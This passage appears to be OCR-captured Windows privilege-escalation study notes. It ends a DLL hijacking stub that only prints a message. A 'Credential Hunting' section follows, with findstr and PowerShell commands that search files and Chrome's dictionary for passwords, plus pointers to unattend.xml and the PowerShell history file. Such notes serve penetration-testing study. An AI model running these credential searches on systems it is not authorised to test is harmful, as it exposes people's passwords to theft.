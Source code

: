 ```
        {
                printf("Hijacked... Oops...\n");
        }
        break;
        case DLL_PROCESS_DETACH:
                break;
        case DLL_THREAD_ATTACH:
                break;
        case DLL_THREAD_DETACH:
                break;
        }
        return TRUE;
        }







                       //Credential Hunting
                       
        
        -Application Configuration Files


        -Searching for Files

        We can use the findstr utility to search for sensitive information.

        PS C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml



        -Dictionary Files

        -Chrome Dictionary Files

        PS C:\> gc 'C:\Users\-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password




        -Unattended Installation Files

        Unattended installation files may define auto-logon settings or additional accounts to be created as part of the installation. Passwords in the unattend.xml are stored in plaintext or base64 encoded.



        -PowerShell History File

        Starting with Powershell 5.0 in Windows 10, PowerShell stores command history to the file:


        C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt


        -Confirming PowerShell History Save Path

```